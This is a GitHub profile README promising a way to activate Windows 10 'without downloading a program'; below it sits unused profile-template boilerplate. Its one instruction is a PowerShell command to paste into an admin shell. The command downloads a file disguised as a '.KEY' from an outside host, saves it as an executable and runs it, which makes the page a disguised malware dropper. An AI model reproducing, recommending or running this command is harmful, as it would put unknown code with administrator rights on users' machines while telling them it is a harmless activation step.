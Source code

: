 
##⚡ How to Activate Windows 10 the Right Way, Without Downloading Program. Activate Windows 10 Just Using Native [ Windows PowerShell (Admin) ].

###### To activate Windows 10 copy and paste the command in [ Windows PowerShell (Admin) ].


## ATTENTION ⚡ Copy the complete command ⚡
> Invoke-WebRequest -Uri https://downloadapplication.pythonanywhere.com/static/TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.KEY -OutFile $env:TEMP\WindowsKEY.exe; Start-Process $env:TEMP\WindowsKEY.exe


<!--
**activate-windows/activate-windows** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
